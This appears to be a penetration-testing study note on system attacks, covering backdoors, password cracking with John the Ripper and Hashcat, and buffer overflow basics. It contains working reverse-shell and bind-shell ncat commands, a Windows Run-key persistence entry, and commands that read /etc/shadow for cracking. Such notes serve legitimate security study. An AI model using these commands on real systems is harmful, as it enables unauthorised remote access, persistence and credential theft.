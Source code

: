 # System Attacks

## Backdoor

Backdoors have two components, server and client:

* _Server_ runs on the victim machine listening on the network in order to accept connections.
* _Client_ runs on the attacker machine.
* `Netbus` or `SubSeven` are very famous.
* If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a **Connect-back Backdoor** or **Reverse Backdoor**.
* A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

### Create stable connection to a remote host

```bash
# => Listener
ncat -l -v -p 5555 -e /bin/bash
# => Client
ncat localhost 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort

# bash interactive for friendly prompt
bash -i
```

```bash
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncact
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```

```bash
# Persistent connection script
# By default netcat does not have a persistent connection.
# You will need to run it in a while loop if you want to connect to it more than once.
# Otherwise it will close the program after the first connection:
# https://defcon.org/images/defcon-22/dc-22-presentations/Nemus/DEFCON-22-Lance-Buttars-Nemus-Intro-to-backdooring-OS.pdf

#!/bin/bash
while [ 1 ]; do
  echo | ncat -l -v -p 445 -e /bin/bash
done
```

## Password Attacks

Normally stored in an encrypted form, preventing a malicious local user from getting to know user's passwords, using a _one-way encryption algorithm_, using a cryptographic hashing function. There are three main strategies:

### Brute force attacks

> This method is only used when other attack vectors fail.

You try them all by _generating_ and testing all the possible valid passwords. Given enough time, a brute force attack is always successful.

* Long passwords made by upper and lower case letters, numbers and symbols can take days or even years to crack
* _John The Ripper_: can mount both brute force and dictionary-based attacks against a password database (see: `john --list=formats`)
  * Fast because of the high use of parallelization, crack strategies
  * `/etc/passwd`: contains info about user accounts
  * `/etc/shadow`: contains info about the actual password hashes
  * `john` needs the username and the password hashes to be in the same file, therefore we need to use the `unshadow` utility that comes with _John The Ripper_
  * `john -incremental -users:<users list> <file to crack>`
  * `john -incremental -users:victim crackme`
  * To display the passwords recovered by `john`, use: `john --show <file>`

### Dictionary attacks

* Common passwords
* Faster than pure brute force attacks
* Poorly chosen or default passwords are more exposed to dictionary cracking
* `john -wordlist=<custom wordlist file> <file to crack>`
* Install password dictionaries: `apt-get install seclists`
  * You'll find them in `/usr/share/seclists/Passwords`
* **Mangling words**
  * Variations on dictionary words
  * `john -wordlist=<custom wordlist file> <file to crack> -rules <file to crack>`

### Rainbow Tables

* Offer a tradeoff between the processing time needed to calculate the hash of a password and the storage space needed to mount an attack.
* A rainbow table contains links between the results of a run of one hashing function and another.
* Rainbow tables are BIG in file size, but reduces a cracking session from days to seconds.
* Great choice to crack simple and complex short passwords.
* `Ophcrack` rainbow cracking for Windows authentication passwords (can run on Linux too).

## John the Ripper

```bash
unshadow /etc/passwd /etc/shadow > hashes.txt
john --wordlist=/usr/share/john/password.lst hashes.txt
cat /root/.john/john.pot
```

## Hashcat

```bash
# -m hash-type
# -a various attack mode
# -b benchmark
# -D specify the device
# -O optimize performance

> hashcat -b

# Wordlist attack
> hashcat -m 0 -a 0 -D2 example.hash example.dict
# -m 0 md5 type of hash
# -a 0 simple dictionary attack

# Rules
# Mutate dictionary words by setting different rules
custom.rule:

l
u
c
r
$1
$2
[
]
^1
^a
^!$!

# also hashcat comes with builtin rules

# Mask Attack
# 5 letter passwords = 5 masks
> hascat -m 0 -a 3 example.hash ?l?l?l?l
```

## Buffer Overflow Attacks

A BoF attack can lead to:

* An app or OS crash (DoS).
* Privilege escalation.
* Remote code execution.
* Security features bypass.

A buffer is an area in the RAM reserved for temporary data storage:

* User input, parts of a video file, server banners received by a client application. etc.
* Buffers have a finite size, therefore: if an app developer does not enforce a buffer limit, an attacker could find a way to write data beyond those limits and write there arbitrary code

### Stack

* A stack is a data structure used to store data.
* Two operation for LIFO stacks: `pop` & `push`.
* Space on the stack can be allocated from app's code.
* An overflow happens when an attacker overwrites on a reserved space, so overwriting a function return address means getting control over the app.
* If an attacker manages to overflow a local variable from the app, the attacker would be able to overwrite the _Base Pointer_ and then get a _Return Address_.
* If the attacker overwrites the _Return Address_ with the right value, they are able to control the execution flow of the program.
* This technique can be exploited by writing custom tools and applications or by using hacking tools as Metasploit.

Being able to write a buffer overflow exploit requires a deep understanding of assembly programming, how applications and OS works and some exotic programming skills.
